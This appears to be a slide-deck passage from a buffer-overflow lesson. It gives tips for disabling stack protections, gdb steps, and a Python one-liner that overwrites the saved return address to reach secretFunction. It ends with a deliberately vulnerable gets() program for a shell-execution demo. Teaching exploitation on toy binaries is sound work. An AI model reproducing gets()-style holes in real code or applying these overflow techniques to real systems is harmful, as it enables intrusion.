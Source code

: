
### Tips

* Make sure you still use `-fno-stack-protector`
* Turn off position independent code with `-no-pie`
* Use `objdump` or `gdb` to find address of `secretFunction`
* Aim to overwrite the stored value of %eip in the stack

---

### Solution

```bash
$ gdb typing
(gdb) info functions
(gdb) disassemble echo
```

<small>Look for `lea -0x1c(%ebp),%eax` prior to `scanf` call</small>

```bash
$ python -c 'print "A"*32 + "\xd6\x91\x04\x08"' | ./typing
```

---

## Demo - shell execution

<small>
Turn off non-executable stacks with `-z execstack` in `gcc`
</small>

```c
vuln() {
  char buffer[64];
  gets(buffer);
}

int main(int argc, char **argv) {
  vuln();
}
```
